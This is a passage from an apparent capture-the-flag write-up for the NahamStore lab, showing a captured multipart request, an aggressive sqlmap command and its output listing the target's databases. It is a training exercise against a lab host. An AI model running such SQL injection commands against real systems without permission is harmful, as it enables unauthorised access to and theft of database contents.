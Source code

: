 	1
	------WebKitFormBoundary91queA4XdWkBz5By
	Content-Disposition: form-data; name="return_info"

	test
	------WebKitFormBoundary91queA4XdWkBz5By--

	```
- `sqlmap -r req.txt --level 3 --risk 3 --dbs`
	```
	...
	[18:43:46] [INFO] parsing HTTP request from 'req.txt'
	Multipart-like data found in POST body. Do you want to process it? [Y/n/q] y
	Cookie parameter 'token' appears to hold anti-CSRF token. Do you want sqlmap to automatically update it in further requests? [y/N] n
	[18:44:07] [INFO] resuming back-end DBMS 'mysql' 
	[18:44:07] [INFO] testing connection to the target URL
	got a 302 redirect to 'http://nahamstore.thm:80/returns/1?auth=c4ca4238a0b923820dcc509a6f75849b'. Do you want to follow? [Y/n] n
	...
	available databases [2]:
	[*] information_schema
	[*] nahamstore
	...
	```
	- We have confirmed the target database `nahamstore`
	![15sqli2-2](imgs/15sqli2-2.png)
